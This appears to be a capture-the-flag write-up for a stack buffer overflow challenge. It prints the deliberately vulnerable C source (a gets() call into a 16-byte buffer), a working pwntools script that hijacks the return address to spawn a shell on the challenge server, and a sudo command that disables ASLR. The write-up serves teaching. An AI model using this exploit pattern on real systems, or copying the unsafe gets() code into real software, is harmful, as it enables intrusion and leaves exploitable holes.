 # 🛠️ Pwn Challenge: **Return to Me Please**  

**Author:** 5N0023  
**Challenge Address:** `nc pwn.akasec.club 2001`  

---

## 🕹️ Challenge Overview  

i already solve it so you can't call me a script kiddie(.)
![Homepage Screenshot](https://github.com/TarPeg007/Akasec-CTF-Writeups/blob/master/photos/Screen%20Shot%202024-11-26%20at%205.07.00%20PM.png?raw=true)

Welcome to the **Return to Me Please** challenge!  
Your mission, should you choose to accept it, is to exploit the binary, hijack control flow, and invoke the magical `system("/bin/sh")` call for a well-deserved shell! 🚀  

Remember:  
- This is a classic **stack buffer overflow** challenge with a little twist.  
- The function `returnToMePlease` *dares* you to break the rules and return control to it.  
- It's a test of precision, wit, and knowledge of binary exploitation.  

---

## 🛡️ The Binary  

Here's the vulnerable source code, straight from the challenge:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void returnToMePlease()
{
    int a = 0;
    if (a == 0x1337)
    {
        printf("You are not allowed to call this function\n");
        return;
    }
    system("/bin/sh");
}

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    char name[0x10];
    printf("return to me please : %p\n", returnToMePlease);
    gets(name);
    return 0;
}
```

### 🚩 Key Observations

**Vulnerability:**
- The `gets()` function allows us to overflow the buffer `name[0x10]` and overwrite important data on the stack (like the return address).

**Target Function:**
- The `returnToMePlease` function contains a call to `system("/bin/sh")`. 
- However, it has a condition that prevents direct access.

**Leak:**
- The address of `returnToMePlease` is printed at runtime, providing a useful starting point for exploitation.

---

## 💻 Exploitation Script

Here's how we exploit the binary using Python and pwntools:

```python
from pwn import *

# Step 1: Connect to the target
p = remote('pwn.akasec.club', 2001)  # Update with the actual host and port
# Uncomment the line below for local testing:
# p = process('./return_to_me_please')  

# Step 2: Read the leaked function address
win = int(p.recvline().split()[-1], 16)
log.info('Address of returnToMePlease: ' + hex(win))

# Step 3: Build the payload
buffer_size = 0x10
saved_base_pointer = 0x8
payload = b'A' * buffer_size        # Overflow the buffer
payload += b'B' * saved_base_pointer  # Overwrite the base pointer
payload += p64(win + 45)           # Redirect execution to `system("/bin/sh")`

# Step 4: Send the payload and interact
p.sendline(payload)
p.interactive()
```

---

## 📖 Useful Resources

### 🎓 Learning Buffer Overflows:
- LiveOverflow YouTube Channel - Hands-on, engaging tutorials on binary exploitation
- RPISEC Modern Binary Exploitation - A full course with practical challenges
- Buffer Overflow Explained (by FuzzySecurity) - Simple and clear explanations

### 🛠️ Tools You'll Love:
- Pwntools Documentation - Your Swiss Army knife for pwn challenges
- GDB + PEDA - Enhance your debugging game
- pwndbg - A powerful GDB plugin for binary exploitation

### 🎮 Practice Platforms:
- pwnable.kr - Practice live CTF-like challenges
- OverTheWire: Narnia - Exploit buffer overflows in a wargame environment
- Hack The Box - Real-world hacking challenges

---

## 💡 Pro Tips

### Understand Your Target
- Use tools like `readelf` or `objdump` to analyze the binary
- Run it locally in gdb and inspect the stack layout

### ASLR Got You Stuck?
Disable ASLR during local testing with:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

### Avoid Crashes
- Pay attention to the buffer size and calculate your offsets carefully
- Use cyclic patterns to pinpoint the exact location of the return address:
```python
from pwn import *
pattern = cyclic(100)  # Generate a pattern of 100 bytes
```

### Know the Calling Convention
- On x86-64 systems, remember that the return address sits 8 bytes after the saved base pointer

### Test Locally First
- Always debug and test your exploit on a local copy of the binary before attempting on the challenge server

---

## 🎉 Final Words

Exploitation is an art and a science. It's not just about finding vulnerabilities but about understanding how systems work at their core. 

**Keep practicing, stay curious, and never stop learning!**
